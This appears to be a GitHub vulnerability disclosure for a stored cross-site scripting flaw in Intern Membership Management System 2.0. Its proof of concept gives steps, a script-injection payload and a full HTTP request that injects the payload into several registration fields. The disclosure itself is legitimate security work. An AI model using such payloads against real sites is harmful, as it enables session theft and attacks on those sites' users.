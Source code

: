 # Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Exploit Title:** Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Intern Membership Management System 2.0 allows Stored Cross-site Scripting via parameters 'userName','firstName', 'lastName', '' and 'userEmail' in "/intern/user_registration/".
Intern Membership Management System is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. 
This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Use this payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`
+ Fill 'userName','firstName', 'lastName', '' and 'userEmail' parameters on the form and click 'Register' button.
+ The Stored XSS will be triggered.
+ Alerts will pop-up permanently.
+ Example request for 'userName','firstName', 'lastName', '' and 'userEmail' parameters:
```
POST /intern/user_registration/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://localhost
Connection: close
Referer: http://localhost/intern/user_registration/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

userName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&firstName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&lastName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&password=&confirm_password=&userEmail=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&gender=Male&terms=on&register-user=Register
```

+ Example payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8c711e71-94df-48eb-98af-9b16fbbecd31)
![2_xss](https://github.com/h4md153v63n/CVEs/assets/5091265/1a45f2d0-4bfa-4a20-9b7e-59f8d6aba24d)
![2_xss-2](https://github.com/h4md153v63n/CVEs/assets/5091265/337eeddd-d66f-4dd9-8887-923637a2b680)

